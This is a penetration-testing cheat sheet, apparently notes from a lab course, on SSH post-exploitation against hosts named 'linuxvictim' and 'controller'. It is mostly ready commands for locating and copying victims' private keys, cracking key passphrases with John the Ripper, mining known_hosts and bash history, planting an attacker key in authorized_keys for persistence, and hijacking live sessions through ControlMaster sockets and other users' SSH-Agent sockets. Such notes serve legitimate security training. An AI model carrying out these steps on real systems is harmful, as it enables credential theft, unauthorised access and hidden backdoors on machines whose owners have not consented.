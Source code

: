 # (22) SSH

<details>

<summary>Finding SSH Private Keys</summary>

```bash
/home/user/.ssh/id_rsa
```

```
find /home/ -name "id_rsa"
```

</details>

<details>

<summary>SSH with Private Key</summary>

```
ssh -i svuser.key svuser@controller
```

</details>

<details>

<summary>How to tell if a key is encrypted with passphrase?</summary>

![](<../.gitbook/assets/image (300).png>)

</details>

<details>

<summary>Cracking passphrase of SSH key</summary>

<pre><code><strong>#Copy file over to Kali
</strong><strong>scp root@linuxvictim:/home/linuxvictim/svuser.key .
</strong><strong>
</strong><strong>#Convert the hash to format used by John &#x26;&#x26; Crack it
</strong>/usr/share/john/ssh2john.py svuser.key > svuser.hash
john --wordlist=/usr/share/wordlists/rockyou.txt svuser.hash
</code></pre>

</details>

<details>

<summary>Find Machines that's connected from the victim</summary>

* cat \~/.ssh/known\_hosts
  * If HashKnownHosts is enabled --> entries in known\_hosts are hashed
* cat \~/.bash\_history

</details>

<details>

<summary>SSH Persistency</summary>

* Generate SSH keypair
  *   ```
      ssh-keygen
      ```


* Put Kali's public key (\~/.ssh/id\_rsa.pub) to victim authorized\_keys file
  *   ```
      echo "ssh-rsa AAAAB3NzaC1yc2E....ANSzp9EPhk4cIeX8=" >> /home/linuxvictim/.ssh/authorized_keys
      ```


* Now, can just:
  * ```
    ssh linuxvictim@linuxvictim
    ```

</details>

<details>

<summary>SSH from localhost to localhost</summary>

* Useful if SSH port is not opened to external IP

```bash
www-data@nineveh:/dev/shm$ chmod 600 nineveh.priv 
www-data@nineveh:/dev/shm$ ssh -i nineveh.priv amrois@127.0.0.1
Could not create directory '/var/www/.ssh'.
The authenticity of host '127.0.0.1 (127.0.0.1)' can't be established.
ECDSA key fingerprint is SHA256:aWXPsULnr55BcRUl/zX0n4gfJy5fg29KkuvnADFyMvk.
Are you sure you want to continue connecting (yes/no)? yes
Failed to add the host to the list of known hosts (/var/www/.ssh/known_hosts).
Ubuntu 16.04.2 LTS
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

288 packages can be updated.
207 updates are security updates.


You have mail.
Last login: Wed May 10 08:01:22 2023 from 10.10.14.2
amrois@nineveh:~$ whoami
amrois
```

</details>

<details>

<summary>SSH Hijacking (ControlMaster)</summary>

* Using an existing SSH connection to gain access to another machine
* Allows for the sharing of multiple SSH session over a single network connection

**ControlMaster feature**

* In \~/.ssh/config
  *   ```
      Host *
              ControlPath ~/.ssh/controlmaster/%r@%h:%p      --> specifies where the ControlMaster socket file is stored
              ControlMaster auto
              ControlPersist 10m
      ```


* Then,&#x20;
  *   ```
      chmod 644 ~/.ssh/config
      mkdir ~/.ssh/controlmaster
      ```


* SSH to the controller box and from controller box ssh to linuxvictim
  *   ```
      ssh offsec@controller
      ssh offsec@linuxvictim
      ```


* Now, in \~/.ssh/controlmaster
  * Have `offsec@linuxvictim:22`entry
* Finally, attacker able to ssh into the linuxvictim machine from controller without having to enter any password --> "piggybacking" the active legit session to linuxvictim
  * ```
    ssh offsec@linuxvictim
    OR
    ssh -S /home/offsec/.ssh/controlmaster/offsec\@linuxvictim\:22 offsec@linuxvictim
    ```

</details>

<details>

<summary>SSH Hijacking (SSH-Agent)</summary>

* Keeps track of user's private keys and allows them to be used without having to repeat their passphrases

- Setting up
  * Installing public key to both intermediate and destination server
    *   ```
        ssh-copy-id -i ~/.ssh/id_rsa.pub offsec@controller
        ssh-copy-id -i ~/.ssh/id_rsa.pub offsec@linuxvictim
        ```


  * In kali: \~/.ssh/config
    *   ```
        ForwardAgent yes
        ```


  * In intermediate server /etc/ssh/sshd\_config
    *   ```
        AllowAgentForwarding yes
        ```


  * Start SSH agent on Kali
    *   ```
        eval `ssh-agent`
        ```


  * Add our keys to the SSH-agent on kali
    *   ```
        ssh-add
        ```


  * Now, able to ssh to intermediate server and from intermediate server ssh to destination server
    *   <pre><code><strong>ssh offsec@controller
        </strong>ssh offsec@linuxvictim
        </code></pre>



Exploiting

*   If there exists a connection from the controller to the linuxvictim that's not the attacker's -->&#x20;

    When the attacker access the controller with the same user as the currently logged in user session, they're able to ssh to the linuxvictim without any creds

- ELSE if the attacker account is different from the current session user
  *   Ensure that user's open SSH-Agent socket is present:

      ```
      ps aux | grep ssh
      ```


  * Find PID of SSH process (Eg: bash(2161))
    *   ```
        pstree -p offsec | grep ssh
        ```


  * Search for the env variable called SSH\_AUTH\_SOCK
    *   ```
        cat /proc/2161/environ
        ```


  * Add SSH auth socket
    *   ```
        SSH_AUTH_SOCK=/tmp/ssh-qAgOqMO4H1/agent.2160 ssh-add -l
        ```


  * Use new SSH auth socket to login to linuxvictim
    * ```
      SSH_AUTH_SOCK=/tmp/ssh-qAgOqMO4H1/agent.2160 ssh offsec@linuxvictim
      ```

</details>




